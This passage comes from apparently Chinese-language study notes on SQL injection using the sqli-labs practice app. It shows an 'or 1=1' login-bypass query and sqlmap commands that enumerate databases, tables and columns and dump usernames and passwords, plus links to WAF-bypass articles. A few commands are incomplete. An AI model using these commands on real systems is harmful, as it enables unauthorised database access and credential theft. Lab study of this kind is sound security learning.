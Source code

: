 ```select name,pass from tbAdmin where name='admin' or 1=1#' and pass='123456' ```

	sqlmap -u "http://ip/sqli-labs-master/Less-11/" --method POST --data "uname=1&passwd=1" -p uname

#### sqlmap 查看权限

	sqlmap -u url --privileges

#### post注入爆破

	抓包，保存登陆的post请求响应，存储为sql.txt，爆破数据库名：

	sqlmap -r sql.txt --dbs
		
	根据猜解的数据库猜解表：	
	
	 sqlmap -r --tables -D security
	
	根据猜解的表进行猜解表的column

	 sqlmap -r --columns -D security -T users 

	根据字段猜解内容 （--dump会下载到本地）
	
	 sqlmap -r --dump -D security -T users -C "username,password"




## 后记

sql shell 和php的mysql库函数是不同的，mysql_query 是不支持多语句的。

可以打开数据库sql执行日志，然后看slow query日志

sqlmap跑不出来需要手工注入的情况？



## 参考文献


[**SQL注入绕过技巧**](https://www.cnblogs.com/Vinson404/p/7253255.html)

[过waf](https://www.2cto.com/article/201409/331545.html)









Level 42